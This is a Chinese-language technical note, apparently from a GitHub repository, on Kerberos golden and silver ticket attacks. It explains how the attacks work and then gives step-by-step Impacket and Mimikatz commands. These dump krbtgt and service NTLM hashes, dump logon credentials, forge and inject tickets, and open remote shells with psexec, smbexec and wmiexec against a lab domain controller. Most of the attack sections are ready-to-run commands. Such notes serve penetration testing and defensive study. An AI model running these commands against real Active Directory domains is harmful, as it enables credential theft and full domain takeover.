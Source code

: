 # 黄金白银票据的原理及利用
## 票据传递攻击
## 黄金票据原理
在Kerberos认证中,Client通过AS(身份认证服务)认证后,AS会给Client一个
Logon Session Key和TGT,而Logon Session Key并不会保存在KDC中，krbtgt的NTLM Hash又是固定的,所以只要得到krbtgt的NTLM Hash，就可以伪造TGT和Logon Session Key来进入下一步Client与TGS的交互。而已有了金票后,就跳过AS验证,不用验证账户和密码,所以也不担心域管密码修改。

## 特点
不需要与AS进行交互，需要用户krbtgt的Hash

## 利用Impacket包远程生成黄金票据
### 获取 krbtgt NT hash
这个脚本将利用域管账号远程导出域控的krbtgt NT hash 导到~/ 中的 win2016 文件
```
ecretsdump.py Administrator:vagrant@192.168.64.133 | grep krbtgt | grep ::: > ~/win2016; cat ~/win2016
```
### 获取域SID
利用  lookupsid.py 脚本远程导出Domain SID

```
lookupsid.py Administrator:vagrant@192.168.64.133 | grep "Domain SID" >> ~/win2016; cat ~/win2016
```
### 获取域名
当忘记域名的时候可以用这个bat脚本在该机器上获取域名
```
echo "powershell Get-WmiObject Win32_ComputerSystem" > ~/GetDomain.bat
```
然后利用psexec.py 脚本远程执行上面的bat
```  
psexec.py Administrator:vagrant@192.168.64.133 -c ~/GetDomain.bat | grep Domain >> ~/win2016; cat ~/win2016
```
### 生成票据
```
ticketer.py -nthash 4031b5ae4b9defa1f411f26610493e0c -domain-sid S-1-5-21-126282473-2140987555-3925513934 -domain Win2016.local baduser
```

### 使用票据
psexec.py 使用黄金票据需要将其导出来
#### 导出黄金票据
```
echo "export KRB5CCNAME=/vagrant/docs/baduser.ccache" >> ~/.bashrc
. ~/.bashrc
tail ~/.bashrc
```
#### Psexec利用黄金票据
```
export KRB5CCNAME=/vagrant/docs/baduser.ccache; psexec.py -dc-ip 192.168.64.133 -target-ip 192.168.64.133 -no-pass -k Win2016.local/baduser@Win2016.Win2016.local
```
## windows 利用Mimikatz 本地生成
```
#生成票据
mimikatz.exe "kerberos::golden /domain:jurassic.park /sid:S-1-5-21-1339291983-1349129144-367733775 /rc4:b18b4b218eccad1c223306ea1916885f /user:stegosaurus /service:cifs /target:labwws02.jurassic.park"
#利用mimikatz 或 Rubeus 将该票据注入内存
mimikatz.exe "kerberos::ptt ticket.kirbi"
.\Rubeus.exe ptt /ticket:ticket.kirbi
#利用票据获得shell
.\PsExec.exe -accepteula \\labwws02.jurassic.park cmd
```
## 白银票据
## 原理
如果说黄金票据是伪造的TGT,那么白银票据就是伪造的ST。
在Kerberos认证的第三部，Client带着ST和Authenticator3向Server上的某个服务进行请求，Server接收到Client的请求之后,通过自己的Master Key 解密ST,从而获得 Session Key。通过 Session Key 解密 Authenticator3,进而验证对方的身份,验证成功就让 Client 访问server上的指定服务了。
所以我们只需要知道Server用户的Hash就可以伪造出一个ST,且不会经过KDC,但是伪造的门票只对部分服务起作用。

## 特点
1.不需要与KDC进行交互 2.需要server的NTLM hash


## 获取服务账号NTLM Hash
mimikatz的命令，得到SID和NTLM
```
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit">log.txt
```



## imapcket生成白银票据

```
# 利用服务账号 NTLM Hash 生成TGS票据用户名随便写 服务名根据上表 常用可利用的服务CIFS(磁盘共享的服务) /service:CIFS

python ticketer.py -nthash <ntlm_hash> -domain-sid <domain_sid> -domain <domain_name> -spn <service_spn>  <user_name>

# 利用AES-key 生成 TGS票据
python ticketer.py -aesKey <aes_key> -domain-sid <domain_sid> -domain <domain_name> -spn <service_spn>  <user_name>

# 设置该票据到imapcket 包中
export KRB5CCNAME=<TGS_ccache_file>

# 将TGS进行远程利用
python psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```

## Mimikatz 生成白银票据
```
# 利用服务账号 NTLM Hash 生成TGS票据
mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /rc4:<ntlm_hash> /user:<user_name> /service:<service_name> /target:<service_machine_hostname>

# 利用128 位AES-key 生成 TGS票据
mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes128:<krbtgt_aes128_key> /user:<user_name> /service:<service_name> /target:<service_machine_hostname>

# 利用256 位AES-key 生成 TGS票据)
mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes256:<krbtgt_aes256_key> /user:<user_name> /service:<service_name> /target:<service_machine_hostname>

# 利用mimikatz 将TGS注入
mimikatz # kerberos::ptt <ticket_kirbi_file>
```

## 区别
### 获取权限的不同
金票：伪造的TGT，可以获取任意Kerberos的访问权限

银票：伪造的ST，只能访问指定的服务，如CIFS
### 认证流程不同
金票：同KDC交互，但不同AS交互

银票：不同KDC交互，直接访问Server

### 加密方式不同




### 参考
https://www.jianshu.com/p/4936da524040

https://book.hacktricks.xyz/windows/active-directory-methodology/silver-ticket

https://yojimbosecurity.ninja/golden-ticket-with-impacket/

https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a
